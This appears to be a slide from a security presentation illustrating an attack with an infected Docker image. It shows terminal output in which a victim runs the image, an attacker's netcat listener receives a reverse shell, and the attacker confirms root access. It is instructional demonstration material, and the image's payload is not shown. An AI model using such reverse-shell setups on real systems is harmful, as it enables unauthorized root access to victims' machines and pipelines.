

# Attack Scenario
The victim (or the automated CI/CD pipeline) run the infected image

The attacker will receive a connection backfrom the victim
tariq@Freak-ub:~/ docker run --rm  nice_image
tariq@beast:~/$ nc -lvp 4141
Listening on 0.0.0.0 4141
Connection received on .... 43638
root@8cebcd2898ef:# cd ../../../../../../ && id
uid=0(root) gid=0(root) groups=0(root)
root@8cebcd2898ef:../../../../../..# ls
bin
boot
cdrom
dev

49